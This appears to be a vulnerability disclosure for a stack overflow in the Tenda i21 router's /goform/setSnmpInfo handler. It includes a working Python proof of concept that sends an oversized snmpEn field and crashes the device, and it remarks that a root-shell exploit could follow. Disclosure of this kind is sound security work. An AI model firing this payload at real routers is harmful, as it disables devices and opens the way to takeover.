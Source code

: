 # Tenda i21 V1.0.0.14(4656) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address:https://www.tenda.com.cn/download/detail-2982.html

## Affected version

![](imgs/1.png)

## Vulnerability details

![](imgs/2.png)

![](imgs/3.png)

In /goform/setSnmpInfo, snmpEn is controlled by the user and will finally be spliced into parm by sprintf. It is worth noting that the stack overflow is caused by not checking the size

## Poc


```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x3000
p2 = b'snmpEn=' + p1

p3 = b"POST /goform/setSnmpInfo" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell
